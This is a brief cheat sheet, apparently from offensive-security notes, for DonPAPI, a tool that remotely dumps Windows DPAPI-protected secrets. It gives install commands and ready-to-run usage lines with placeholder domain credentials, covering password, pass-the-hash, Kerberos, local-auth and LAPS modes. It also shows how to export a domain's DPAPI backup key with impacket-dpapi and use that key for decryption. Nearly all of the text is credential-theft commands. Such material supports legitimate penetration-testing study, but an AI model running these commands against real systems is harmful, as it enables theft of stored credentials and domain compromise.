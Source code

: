 ## Source: 

https://github.com/login-securite/DonPAPI

## Installation

```
pipx install donpapi
pipx install git+https://github.com/login-securite/DonPAPI.git
```

## Using DonPapi

```
- donpapi megacorpone.com/afsimmons:password@target
- donpapi --hashes <LM>:<NT> megacorpone.com/afsimmons@target
```

## Using Kerberos or local auth

- donpapi -k megacorpone.com/afsimmons@target
- donpapi -local_auth megacorpone.com/afsimmons@target
- donpapi -laps megacorpone.com/afsimmons:password@target

## Dumping domain backup key (Must be Domain Admin!)

- impacket-dpapi backupkeys --export -t domain/user:passw0rd@target_dc_ip
- donpapi -pvk domain_backupkey.pvk megacorpone.com/afsimmons:password@target

